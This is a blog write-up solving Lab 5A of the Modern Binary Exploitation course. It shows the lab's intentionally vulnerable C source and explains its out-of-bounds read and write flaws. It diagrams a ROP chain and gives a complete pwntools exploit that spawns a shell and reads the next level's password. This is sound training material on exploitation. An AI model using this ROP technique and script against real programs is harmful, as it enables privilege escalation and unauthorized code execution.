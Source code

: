 ```yaml
---
layout: post
title: Modern Binary Exploitation - Lab 5A
published: True
---
```


For this lab, we are given a program and its corresponding source code:

{% highlight C %}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include "utils.h"

#define STORAGE_SIZE 100

/* gcc --static -o lab5A lab5A.c */

/* get a number from the user and store it */
int store_number(unsigned int * data)
{
    unsigned int input = 0;
    int index = 0;

    /* get number to store */
    printf(" Number: ");
    input = get_unum();

    /* get index to store at */
    printf(" Index: ");
    index = (int)get_unum();

    /* make sure the slot is not reserved */
    if(index % 3 == 0 || index > STORAGE_SIZE || (input >> 24) == 0xb7)
    {
        printf(" *** ERROR! ***\n");
        printf("   This index is reserved for doom!\n");
        printf(" *** ERROR! ***\n");

        return 1;
    }

    /* save the number to data storage */
    data[index] = input;

    return 0;
}

/* returns the contents of a specified storage index */
int read_number(unsigned int * data)
{
    int index = 0;

    /* get index to read from */
    printf(" Index: ");
    index = (int)get_unum();

    printf(" Number at data[%d] is %u\n", index, data[index]);

    return 0;
}

int main(int argc, char * argv[], char * envp[])
{
    int res = 0;
    char cmd[20] = {0};
    unsigned int data[STORAGE_SIZE] = {0};

    /* doom doesn't like enviroment variables */
    clear_argv(argv);
    clear_envp(envp);

    printf("----------------------------------------------------\n"\
           "  Welcome to doom's crappy number storage service!  \n"\
           "          Version 2.0 - With more security!         \n"\
           "----------------------------------------------------\n"\
           " Commands:                                          \n"\
           "    store - store a number into the data storage    \n"\
           "    read  - read a number from the data storage     \n"\
           "    quit  - exit the program                        \n"\
           "----------------------------------------------------\n"\
           "   doom has reserved some storage for himself :>    \n"\
           "----------------------------------------------------\n"\
           "\n");


    /* command handler loop */
    while(1)
    {
        /* setup for this loop iteration */
        printf("Input command: ");
        res = 1;

        /* read user input, trim newline */
        fgets(cmd, sizeof(cmd), stdin);
        cmd[strlen(cmd)-1] = '\0';

        /* select specified user command */
        if(!strncmp(cmd, "store", 5))
            res = store_number(data);
        else if(!strncmp(cmd, "read", 4))
            res = read_number(data);
        else if(!strncmp(cmd, "quit", 4))
            break;

        /* print the result of our command */
        if(res)
            printf(" Failed to do %s command\n", cmd);
        else
            printf(" Completed %s command successfully\n", cmd);

        memset(cmd, 0, sizeof(cmd));
    }

    return EXIT_SUCCESS;
}
{% endhighlight %}

If we run `checksec`, we can see that NX is enabled, among other mitigations.

{% highlight bash %}
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
{% endhighlight %}

We can can also see that it is statically compiled. Therefore, we cannot perform a traditional ret-2-libc attack and call `system()` since no libraries are dynamically linked.

{% highlight bash %}
rh0gue@vexillum:~/Documents/MBE/lab05$ file lab5A
lab5A: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=9bfddee794af8b6ff1fc27bf36a4bdec3789a805, not stripped
{% endhighlight %}

## Vulnerability
We can see there are two vulnerabilities in the source code. First, the `read_number()` function allows us to read arbitrary data off the stack, since it does not check that the index the user requests is a legitimate index within the `data` array. 
Similarly, the `store_number()` function does not perform proper checking of the index used to store data in the array either, giving us a write-what-where privimite, albeit limited.

The exploit primitive is limited because the `store_number()` array prevents the user from storing data at a requested index if the index is a multiple of 3. 
This prevents us from simply copying and pasting a ROP chain to the stack to gain code execution, since our ROP chain will be "broken" at every index that is a multiple of 3. 
Therefore, we need to come up with out own gadgets, since our ROP chain must avoid having to write data to every 3rd index/dword in our array.  

## Exploit
In order to call `execve("/bin/sh",0,0)` to spawn a shell, I needed to call `int 0x80` while having the following register values.

**eax = 0xb**  
**ebx = ptr to "/bin/sh"**  
**ecx = 0**  
**edx = 0**

Using ROPgadget, I found the gadgets I needed to make this happen.

First, I found a **stack pivot**  at `0x8049bb7`, which I needed in order to place the rest of my ROP chain in the data array without getting trashed by stack operations called in `main()`, since we need to go back to `main()` and call `store_number()` for every gadget we want to use in our ROP chain. This stack pivot will be written to the stack at the end, since we need it to overwrite our saved return address at `data[-11]` but still need to return to `main()` to write the other gadgets to the stack.

The rest of the gadgets I found all avoid returning or writing to indices that are a multiple of 3 and take advantage of the fact that the `data` array is initialized with all 0x0's to pop some of those 0x0's into **ecx** and **ebx**.

I also placed my `"/bin/sh"` string to indices 19 and 20 in the data array, the addresses of which, I later leaked in my exploit, since we needed to set ebx to point to the location of `"/bin/sh"`.
 
To clarify everything for myself, I wrote an outline of what the stack would look like with everything I needed in place.

{% highlight bash %}
-13 
-12
-11 0x08049bb7 : add esp, 0x2c ; ret
-10      |  
-9       |
-8       | 
-7       |
-6       |
-5       |
-4       |
-3       |
-2       |
-1       |
0        V          
1  0x08054c30 : xor eax, eax ; ret 
2  0x08096f78 : add eax, 9 ; pop edi ; ret
3  0x0
4  0x080980a7 : add eax, 2 ; ret 
5  0x080e6255 : pop ecx ; ret 
6  0x0
7  0x0806f3a9 : pop ebx ; pop edx ; ret
8  ptr2binsh ----------------------
9  0x0                            |
10 0x08048eaa : int 0x80          |
11 0x0                            |
12 0x0                            |
13 0x0                            |
14 0x0                            |
15 0x0                            |
16 0x0                            |
17 0x0                            |
18 0x0                            |
19 0x69622f2f ("//bin/sh") <-------
20 0x68732f6e ("n/sh\00")
{% endhighlight %}

Putting everything together, the following exploit will give us a shell.

## Solution
{% highlight python %}
from pwn import *
import sys

def store(value, index):
  r.sendline("store")
  r.recvuntil("Number: ")
  r.sendline(str(value))
  r.recvuntil("Index: ")
  r.sendline(str(index))
  r.sendline("")
  if index!=-11: # don't recvuntil() after overwriting SRA
    r.recvuntil("command: ")
  
def read(index):
  r.sendline("read")
  r.recvuntil("Index: ")
  r.sendline(str(index))
  r.sendline("")
  return r.recvuntil("command: ").split()[4] # leaks addr of data

def exploit(r):
  r.recvuntil("\n\n")
  r.sendline("")
  r.recvuntil("command: ")
  data = int(read(-10))      # ptr to data array
  binsh = data+(4*19)        # ptr to "/bin/sh"
  store(0x69622f2f, 19)      # "//bi" in data[19]
  store(0x68732f6e, 20)      # "n/sh" in data[20]
  store(0x08054c30, 1)       # xor eax, eax ; ret 
  store(0x08096f78, 2)       # add eax, 9 ; pop edi ; ret
  store(0x080980a7, 4)       # add eax, 2 ; ret
  store(0x080e6255, 5)       # pop ecx ; ret
  store(0x0806f3a9, 7)       # pop ebx ; pop edx ; ret
  store(binsh, 8)            # ptr to "/bin/sh" in data[8]
  store(0x08048eaa, 10)      # int 0x80
  store(0x08049bb7, -11)     # add esp, 0x2c ; ret (stack pivot overwrites SRA)
  r.interactive()

if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1:
    r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    r = process(['./lab5A'])
    print util.proc.pidof(r)
    pause()
    exploit(r)
{% endhighlight %}

{% highlight bash %}
lab5A@warzone:/tmp/lab5A$ python solve.py 
[*] For remote: solve.py HOST PORT
[+] Starting program '/levels/lab05/lab5A': Done
[25077]
[*] Paused (press any to continue)
[*] Switching to interactive mode
$ id
uid=1020(lab5A) gid=1021(lab5A) euid=1021(lab5end) groups=1022(lab5end),1001(gameuser),1021(lab5A)
$ cat /home/lab5end/.pass
byp4ss1ng_d3p_1s_c00l_am1rite
$  
{% endhighlight %}

